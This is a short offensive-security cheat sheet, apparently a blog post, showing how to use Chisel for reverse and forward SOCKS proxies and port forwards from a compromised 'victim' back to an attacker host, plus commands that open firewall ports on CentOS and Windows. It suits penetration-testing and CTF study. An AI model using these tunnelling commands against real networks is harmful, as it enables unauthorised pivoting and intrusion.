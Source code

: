 ```yaml
---
author: Charlie T
title: Forwarding and Proxying with Chisel
date: 2024-03-10
description: A post explaining different proxying and forwarding techniques with the Chisel tool
math: false
tags:
  - chisel
---
```

### Reverse SOCKS Proxy

>This connects back from a compromised server to a listener waiting on our attacking machine.

#### Attacker Machine

```bash
# This sets up a listener on a your chosen LISTEN_PORT
./chisel server -p $LISTEN_PORT --reverse &
```

#### Victim Machine

```bash
# This command connects back to the waiting listener on our attacking box, completing the proxy. We are using the ampersand symbol (&) to background the processes.
./chisel client $ATTACKER_IP:$LISTEN_PORT R:socks &
```

### Forward SOCKS Proxy

>Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

#### Attacker Machine

```bash
# In this command, PROXY_PORT is the port that will be opened for the proxy
# Ex: ./chisel client 172.16.0.10:8080 1337:socks would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.
./chisel client $TARGET_IP:$LISTEN_PORT $PROXY_PORT:socks &
```

#### Victim Machine

```bash
# Sets up a listener on your chosen LISTEN_PORT
./chisel server -p $LISTEN_PORT --socks5
```

### Remote Port Forward

>A remote port forward is when we connect back from a compromised target to create the forward.

#### Attacker Machine

``` bash
# Sets up a chisel listener for the compromised host to connect back to
./chisel server -p $LISTEN_PORT --reverse &
```

#### Victim Machine

```bash
# LOCAL_PORT is the port we wish to open on our own attacking machine to link with the desired target port
# You can keep adding more instances of R:port:target:port up to how many ports you need to forward over
./chisel client $ATTACKER_IP:$LISTEN_PORT R:$LOCAL_PORT:$TARGET_IP:$TARGET_PORT &
```

### Local Port Forward

>As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

#### Attacker Machine

```bash
./chisel client $LISTEN_IP:$LISTEN_PORT $LOCAL_PORT:$TARGET_IP:$TARGET_PORT
```

#### Victim Machine

```bash
./chisel server -p $LISTEN_PORT
```


### Firewall Allow

```
# CentOS
firewall-cmd --zone=public --add-port $PORT/tcp

# Windows
netsh advfirewall firewall add rule name="$NAME" dir=in action=
allow protocol=tcp localport=$PORT
```





